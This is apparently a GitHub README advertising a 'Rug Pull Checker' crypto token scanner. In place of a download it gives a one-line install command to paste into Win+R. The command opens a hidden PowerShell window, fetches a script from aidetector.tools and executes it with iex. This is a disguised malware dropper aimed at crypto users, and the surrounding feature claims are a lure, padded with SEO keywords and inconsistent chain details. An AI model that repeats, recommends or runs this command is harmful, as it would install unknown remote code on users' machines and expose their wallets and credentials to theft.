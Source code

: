 <div align="center">
  
## **Rug Pull Checker** | **Solana Token Scanner** | **MemeCoin Checker** 💷💰
  
</div>

<div align="center">
<img src="https://i.ytimg.com/vi/CoRJMqiurPc/hq720.jpg" width="800" height="300" />
</div>

**Rug Pull Detector** is a powerful, fully standalone desktop application built for one purpose: **protecting you from losing money in crypto**.

If you've ever invested in a token that *exploded* hours after launch, the liquidity vanished, and the dev team disappeared... you already know what a **rug pull** is.

Well, forget about that. **Forever.**

---

## 🔧 What Is It?

**Rug Checker** is a desktop app that analyzes tokens on Ethereum / BSC / and other EVM-compatible chains and gives you a **detailed risk report** based on dozens of smart contract parameters.

Just paste a token address, click one button — and within seconds, you'll know:

- 🛑 If a **rug pull is possible**
- 🔐 Whether liquidity is locked and for how long
- 🧠 What **owner/admin rights** are still active
- 🧾 If the contract is verified and published
- 🐳 Token distribution: Are there whales that can crash the price?
- ⚠️ And many other hidden threats you’d never catch manually

---

## 💻 How It Works

The app connects directly to the blockchain via RPC and APIs, fetches the smart contract code, disassembles it if needed, scans available methods, analyzes ownership, liquidity, holders, and runs everything through a custom rule engine to output a clear **risk level**:

📊 Three risk levels:  
✅ Safe | ⚠️ Suspicious | 🚨 High Risk

Each alert comes with an explanation — so you don’t just get a red flag, you **understand** why it's there.

---

## 🧠 Why Use Rug Pull Checker?

There are many online tools, **but**:
- ❌ Many give false positives or incomplete info  
- ❌ They don’t show how results are calculated  
- ❌ They collect your data  
- ❌ They’re often slow and unstable  

**Rug Pull Checker** is:
- ✅ Fully offline. **100% private**  
- ✅ Faster than browser tools  
- ✅ Made for both beginners and devs  
- ✅ Runs locally — no API rate limits  
- ✅ Easily extendable — add your own rules!

---

## 📦 Installation

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>

---

## 🛠️ In Development

- Multi-chain support (Polygon, Arbitrum, Avalanche, etc.)
- Token auto-import from DEXTools / Poocoin / Uniswap
- Wallet portfolio monitoring & alerts

---

## ⭐ Support the Project

If you like the app, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**🧨 No more scams. Just raw blockchain facts.  
With Rug Pull Checker, you're always one step ahead.**

## SEO Keywords
- Rug Checker
- Coin Rug Pull
- Rug Pull Bot
- Rug Pull Detector
- Rug Pull Scanner
- Rug Pull checker
- Solana Rug Pull
- Rug Pull Bot
- Crypto Rug Pull
